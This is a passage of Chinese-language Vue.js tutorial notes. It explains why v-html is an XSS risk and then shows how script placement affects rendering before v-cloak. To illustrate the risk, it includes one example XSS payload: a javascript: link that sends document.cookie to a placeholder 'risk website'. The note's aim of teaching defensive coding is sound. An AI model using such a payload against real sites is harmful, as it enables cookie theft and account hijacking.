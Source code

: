 那么v-html就存在这样的安全问题

```js
//页面中某处用v-html模板解析某个标签
//标签来源于用户的某项输入

//js可以拿到所有没有加httpsOnly的cookie
document.cookie   
//若用户进行这样的输入，v-html也按照标签语法解析了，则：这种写法可以将本网站的cookie取到并跳转到其他页面，由此产生安全问题
<a href=javaScript:locatin.href="风险网站?"+document.cookie>  
```

所以 ，在网站上动态渲染任意HTML是非常危险的，容易导致`XSS攻击`（这个攻击有个好听的名字叫：模拟用户之手）

由此，除了确定无风险的，带标签的字符串模版可以使用v-html其余时候不建议使用。

#### v-cloak指令

我们来看出现的问题，当存在 js阻塞时：

script写在前面的head里	

```vue
<!DOCTYPE html>
<html lang="en">
<head>
    <!-- 该行阻塞5s则，后面的都不加载，等待改行加载完成后再执行 -->
    <script src="js/vue.js"></script>
</head>
<body>
    <div id="root">
        <div>{{str}}</div>
    </div>
</body>
    <script>
        new Vue({
            el:'#root',
            data:{
                str:'123',
            },
        })
    </script>
</html>
```

script写在后面的body最尾部

```vue
<!DOCTYPE html>
<html lang="en">
<head></head>
<body>
    <!-- 该行先进行渲染 -->
   	<!-- Vue还没有开始工作，能看到一些没被Vue编译的样式 -->
    <div id="root">
        <div>{{str}}</div>
    </div>
    
<!-- 该行阻塞5s则，前面的都加载，后面的等待该行加载完成后再执行 -->
    <script src="js/vue.js"></script>
</body>
    <script>
        new Vue({
            el:'#root',
            data:{
                str:'123',
            },
        })
```